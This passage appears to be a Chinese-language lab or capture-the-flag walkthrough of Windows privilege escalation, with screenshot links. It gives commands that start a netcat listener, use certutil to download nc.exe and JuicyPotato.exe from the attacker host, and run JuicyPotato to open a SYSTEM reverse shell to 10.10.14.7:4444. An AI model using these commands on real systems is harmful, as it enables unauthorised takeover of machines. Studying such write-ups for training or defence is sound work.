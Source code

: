 ![截图](c9a03df633863e88692df3885aea3280.png)

选择烂土豆进行提权，在本地开启nc监听

```
nc -lvnp 4444
```

然后在靶机输入命令传输提权程序并进行提权

```
certutil.exe -urlcache -f http://10.10.14.7/nc.exe C:\WINDOWS\TEMP\nc.exe
certutil.exe -urlcache -f http://10.10.14.7/JuicyPotato.exe C:\WINDOWS\TEMP\JuicyPotato.exe
C:\WINDOWS\TEMP\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c 
C:\WINDOWS\TEMP\nc.exe -e cmd.exe 10.10.14.7 4444" -t *
```

![截图](5d86f5a6ef5897fe559331698ae20552.png)

![截图](206734125d2ee1d16b7c71b4f7a7b299.png)
